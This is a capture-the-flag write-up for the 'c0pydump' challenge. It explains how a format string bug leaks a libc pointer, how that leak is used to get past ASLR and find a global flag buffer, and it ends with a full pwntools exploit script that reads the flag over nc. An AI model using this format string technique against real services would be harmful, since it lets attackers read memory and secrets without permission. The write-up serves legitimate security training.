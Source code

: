 # c0pydump

Welcome to our printing service c0pydump! It is a highly secure application. Can you acquire the flag?

`nc challenges.crysys.hu 5006`

_author: tcs_

Attached file:
- [c0pydump.tar.gz](c0pydump.tar.gz)

## Writeup

Testing the service, I've quickly discovered that we have an old favorite format string injection vulnerability.

With some testing locally, I've found the following important stack offsets:
- `%7$p` is the address of our buffer (not very important, but I did not know)
- `%6$p` is the return address of `main`, i.e `__libc_csu_init`
- `%12$p-%13$p-%14$p` contain out input

The flag is read into a global buffer. Sadly, ASLR moves that randomly, so we can't just read it, but if we leak the address of `__libc_csu_init` we can calculate it.

If we enter a pointer, we can print it as `%s` and read the memory contents of that pointer as a string - so we can just read the flag this way.

Final exploit code:
```python
from pwn import *

r = remote("challenges.crysys.hu", 5006)
#r = process("c0pydump")

# %7$p is the address of our buffer (in the stack)
# %6$p __libc_csu_init

# %12$p-%13$p-%14$p are all our strings
# dump %6$p
# calculate ofset of FLAG
# print flag w/ %s

r.clean()
r.sendline("%6$p")
libc_csu = eval(r.clean().split(b"\n")[2])
base_address = libc_csu - 0x13b0
fl = base_address + 0x40a0
print(hex(fl))
print(p64(fl))
payload = b"%14$sAAA"+b"B"*8+p64(fl)

# print(payload)

r.sendline(payload)
r.interactive()
```
